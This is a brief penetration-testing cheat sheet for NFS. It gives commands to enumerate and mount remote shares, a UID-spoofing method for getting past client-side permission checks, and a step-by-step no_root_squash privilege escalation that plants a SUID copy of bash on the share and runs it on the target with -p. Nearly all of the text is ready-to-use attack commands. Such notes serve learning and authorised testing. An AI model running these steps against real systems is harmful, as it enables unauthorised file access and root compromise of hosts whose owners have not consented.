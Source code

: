 # NFS

## Mount remote share

### Enumerate shared folders

```
showmount -e <IP>
```

### Mount folder

```
mkdir <folder>
mount -t nfs <rhost>:<path> <local folder> -o nolock
mount -t nfs -o vers=2 <rhost>:<path> <local folder> -o nolock
```

## Exploits

### Gain ownership of folders

Navigate to the mounted folder and obtain the UID of the file owner. Then create a new user on your machine with the same UID, unmount the remote folder, switch to the new user and mount again. This will allow you to ignore access control on the folders since NFS check for permissions client-side

```
useradd <username> -u <UID> -m -s /bin/bash
su <username>
```

### NFS no\_root\_squash

#### On local machine

Write a SUID executable to the remote share (copy /bin/sh or compile your own executable then `chmod +s` the payload)

```
mkdir /tmp/remote
mount -t nfs <rhost>:<shared folder> /tmp/remote
cd /tmp/remote
cp /bin/bash .
chmod +s bash
```

#### On target

Navigate to the shared folder and execute the payload, if /bin/bash was used, remember to invoke it with -p switch or the SUID bit will be dropped

```
cd <shared folder>
./bash -p
```

